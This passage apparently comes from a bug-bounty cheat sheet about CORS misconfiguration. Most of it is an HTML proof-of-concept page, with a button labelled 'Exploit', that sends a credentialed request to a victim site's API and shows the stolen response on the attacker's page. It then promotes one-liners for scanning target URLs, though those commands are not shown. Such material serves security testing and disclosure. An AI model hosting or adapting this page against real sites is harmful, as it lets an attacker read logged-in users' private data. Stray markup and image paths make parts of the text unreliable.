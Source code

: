 If it is trusting arbitrary origins **with** allow-credentials set to true, then host this HTML as a proof of concept.

```html
<!DOCTYPE html>
<html>
<head><title>BugBounty CheatSheet</title></head>
<body>
<center>
<h2>CORs POC</h2>

<textarea rows="10" cols="60" id="pwnz">
</textarea><br>
<button type="button" onclick="cors()">Exploit</button>
</div>

<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("pwnz").innerHTML = this.responseText;
    }
  };
  xhttp.open("GET", "http://example.com/api/v1/topsecret", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
```

```
xyz.com = subdomain.xyz.com 
xyz.com = pexels.com
```

Look at this amazing CORS PoC in Edmodo <a:PartyParrot:1050252232731414579> 

https://www.youtube.com/watch?v=T6SgOvdr2vU

## CORS one-liners

This is an extremely helpful and practical Cheatsheet for Bug Hunters, which helps you find CORS missconfiguration in every possible method. Simply replace `https://example.com` with the URL you want to target. This will help you scan for CORS vulnerability without the need of an external tool. What you have to do is to copy-and-paste the commands into your terminal and finger crossed for any possible CORS.

![alt text](image3.webp)
